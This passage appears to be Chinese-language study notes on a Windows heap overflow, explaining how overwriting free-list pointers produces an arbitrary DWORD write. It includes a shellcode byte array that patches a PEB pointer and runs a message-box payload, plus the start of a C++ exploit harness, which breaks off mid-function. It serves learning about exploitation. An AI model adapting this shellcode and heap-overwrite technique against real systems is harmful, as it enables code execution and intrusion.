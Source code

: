 此时链表为 `00CA00C0<->00CA04C0<-> 00CA04E0<->00CA00C0`
![](../images/Pasted%20image%2020250214102151.png)

接下来分两次赋值，替换了链表的结点
![](../images/Pasted%20image%2020250214102310.png)
`00CA00C0?->00CA04C0(被覆盖)<-? 00CA04E0<->00CA00C0`

于是到在下一步的申请内存，就失败了。正常应该重新申请到这个被覆盖区域的内存。


### 2.2 试图Shoot

> [!note] 
> 很好的参考：
> https://onestraw.github.io/windows/introduction-heap-overflow-arbitrary-dword-reset/ 

```cpp
char shellcode[]=  
        "\x90\x90\x90\x90\x90\x90\x90\x90"  
        "\x90\x90\x90\x90"  
        //repaire the pointer which shooted by heap over run  
        "\xB8\x20\xF0\xFD\x7F"  //MOV EAX,7FFDF020  
        "\xBB\x03\x91\xF8\x77"  //MOV EBX,77F89103 the address here may releated to your OS  
        "\x89\x18"           //MOV DWORD PTR DS:[EAX],EBX  
        "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"  
        "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"  
        "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"  
        "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"  
        "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"  
        "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"  
        "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"  
        "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"  
        "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"  
        "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"  
        "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"  
        "\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block  
        "\x44\x44\x44\x44\x00\x00\x00\x00";  
//0x00360688 is the address of shellcode in first heap block, you have to make sure this address via debug  
//0x7ffdf020 is the position in PEB which hold a pointer to RtlEnterCriticalSection()  
//and will be called by ExitProcess() at last  
  
int main()  
{  
  
    HLOCAL h1 = 0, h2 = 0;  
    HANDLE hp;  
    //char x;  
    hp = HeapCreate(0,0x1000,0x10000);  
    //x = getchar();  
```